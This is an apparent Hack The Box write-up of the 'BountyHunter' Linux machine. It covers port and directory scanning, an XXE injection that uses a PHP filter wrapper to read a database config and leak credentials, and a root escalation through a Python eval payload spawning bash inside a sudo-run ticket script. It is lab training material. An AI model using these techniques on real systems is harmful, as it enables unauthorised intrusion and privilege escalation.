 ```yaml
---
title: "[HTB] Machine: BountyHunter"
description: "[HTB] Machine: BountyHunter"
date: 2023-08-05
menu:
  sidebar:
    name: "[HTB] Machine: BountyHunter"
    identifier: htb-machine-BountyHunter
    parent: htb-machines-linux
    weight: 10
hero: images/BountyHunter.png
tags: ["HTB", "xxe", "python-eval", "command-injection"]
---
```


# BountyHunter
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.11.100
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-07 15:22 BST
Nmap scan report for 10.10.11.100 (10.10.11.100)
Host is up (0.18s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
|_  256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Bounty Hunters
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.17 seconds
```
- `gobuster`
```
└─$ gobuster dir -u http://10.10.11.100/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x txt,php
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.100/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt,php
[+] Timeout:                 10s
===============================================================
2023/08/07 15:32:18 Starting gobuster in directory enumeration mode
===============================================================
/resources            (Status: 301) [Size: 316] [--> http://10.10.11.100/resources/]
/assets               (Status: 301) [Size: 313] [--> http://10.10.11.100/assets/]
/.php                 (Status: 403) [Size: 277]
/index.php            (Status: 200) [Size: 25169]
/portal.php           (Status: 200) [Size: 125]
/css                  (Status: 301) [Size: 310] [--> http://10.10.11.100/css/]
/db.php               (Status: 200) [Size: 0]
/js                   (Status: 301) [Size: 309] [--> http://10.10.11.100/js/]

```
- Web Server 

![](./images/1.png)

## Foothold/User
- If we visit `/portal.php`
  - We see that it redirects us to `/log_submit.php`

![](./images/2.png)

- When we submit report from `/log_submit.php`, the `POST` request is sent to `/tracker_diRbPr00f314.php`
  - the `data` is base64 encoded `xml`

![](./images/3.png)
![](./images/4.png)

- We can test for `XXE`
  - And it works

![](./images/5.png)

- Now we can try looking for creds
  - We can load `php` files and analyse the source code
  - I remembered `db.php` file from `gobuster` results
  - Since it's `php` file we need to wrap `php` file around filter, or it will return empty
  - Check the [post](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#php-wrapper-inside-xxe)
  - `admin:m19RoAU0hP41A1sTsq6K`

![](./images/6.png)
![](./images/7.png)

- Use creds for `ssh`
  - There is no `admin` user, but we have `development` user
  - The creds work

![](./images/8.png)

## Root
- Enumerate `sudo` rights

![](./images/9.png)

- If we check `source` code 
  - We can use `eval` function by inserting values to ticket

![](./images/10.png)

- Example of ticket
```
development@bountyhunter:/opt/skytrain_inc/invalid_tickets$ cat 390681613.md 
# Skytrain Inc
## Ticket to New Haven
__Ticket Code:__
**31+410+86**
##Issued: 2021/04/06
#End Ticket
```

- We can copy and modify valid ticket 
  - add payload between `**` 
  - The first `int` should satisfy `if int(ticketCode) % 7 == 4:`
  - Payload: `32+110+43+ __import__('os').system('bash')`

![](./images/11.png)
![](./images/12.png)
